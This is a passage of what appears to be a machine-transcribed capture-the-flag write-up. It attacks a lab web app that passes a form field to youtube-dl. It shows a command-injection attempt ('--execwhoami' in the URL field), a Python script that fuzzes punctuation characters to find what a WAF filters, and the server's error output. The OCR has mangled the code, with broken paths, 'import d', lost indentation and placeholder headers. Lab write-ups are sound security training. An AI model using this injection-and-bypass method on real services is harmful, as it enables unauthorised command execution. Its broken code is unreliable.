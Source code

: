 {"status": 2, "errors": "Usage: youtube-dl [OPTIONS] URL [URL ...] \ n \ nyoutube-dl: error: no such option: --execwhoami \ n", "url_orginal" : "- execwhoami", "output": "", "result_url": "\ / tmp \ / downloads \ /5ed69849b1a6d.mp3"}


```
Now at least we know it's about spaces. Now the question is how to put it in UTF-8 format?
The space value in UTF-8 is either "+" or "% 20". There is even a special bash variable $ {IFS} that replaces spaces. Unfortunately, neither of these options works. Or am I wrong?
Maybe it works, **except that something else is stopping the command from executing?** Often WAFs filter out special characters. Let's see if it's not about signs.

## Fuzzing / WAF BYPASS
We will edit the script to sequentially brute-force the special characters.

``` python

#! / usr / bin / python

import requests
import d
import string


url = 'http://192.168.56.111'
special_chars = string.punctuation
print (special_chars)
filtered_chars = []

for ch in special_chars:
print ('TRYING:' + ch + '===================================== \ n' )
r = requests.post (
url,
data = {'yt_url': ''. join (ch)},
headers = {
headers
}
)
if r:
filtered_chars.append (ch)
print (r.text)
else:
break

print (filtered_chars)
```
The script checks each character in turn. Characters that after sending gave the HTTP status positive are added to the list (These are all special characters) Now, then, it's time to analyze the server's response



``` python
$ python3 DMV: 1_script.py
! "# $% & '() * +, -. / :; <=>? @ [\] ^ _` {|} ~
TRYING:! =====================================

{"status": 1, "errors": "WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this. \ nERROR: u '!' is not a valid URL. Set --default-search \ "ytsearch \" (or run youtube-dl \ "ytsearch:! \") to search YouTube \ n "," url_orginal ":"! "," output ": "", "result_url": "\ / tmp \ / downloads \ /5ed76bb2584f1.mp3"}
TRYING: "=====================================

{"status": 2, "errors": "sh: 1: Syntax error: Unterminated quoted string \ n", "url_orginal": "\" "," output ":" "," result_url ":" \ / tmp \ / downloads \ /5ed76bb388791.mp3 "}
TRYING: # =====================================

```